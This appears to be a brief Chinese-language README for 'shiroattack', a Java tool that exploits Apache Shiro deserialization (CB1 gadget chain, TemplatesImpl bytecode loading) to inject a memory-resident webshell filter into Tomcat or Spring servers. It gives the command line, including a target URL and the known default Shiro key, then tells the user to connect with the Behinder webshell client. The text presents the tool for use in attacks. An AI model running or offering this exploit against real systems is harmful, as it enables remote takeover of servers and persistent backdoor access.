 



# 

就是看了别人的文章，调试了一下漏洞，变成了利用工具



- P牛给shiro无CC依赖的CB1链来进行注入内存马

- `TemplatesImpl`来动态加载字节码触发其逻辑，从而注入恶意filter

- 利用自定义ClassLoader的方式绕过maxHttpHeaderSize

  理论上存在漏洞都能写成

## 使用方法

```
java -jar xxx.jar url key type(spring/tomcat)
```

```
java -jar shiroattack-1.0-SNAPSHOT-jar-with-dependencies.jar http://localhost:8080/shirodemo_war/index.jsp kPH+bIxk5D2deZiIxcaaaA== tomcat
```

然后冰蝎直接连就行了



参考原文：

[利用shiro反序列化注入冰蝎内存马 - 先知社区 (aliyun.com)](
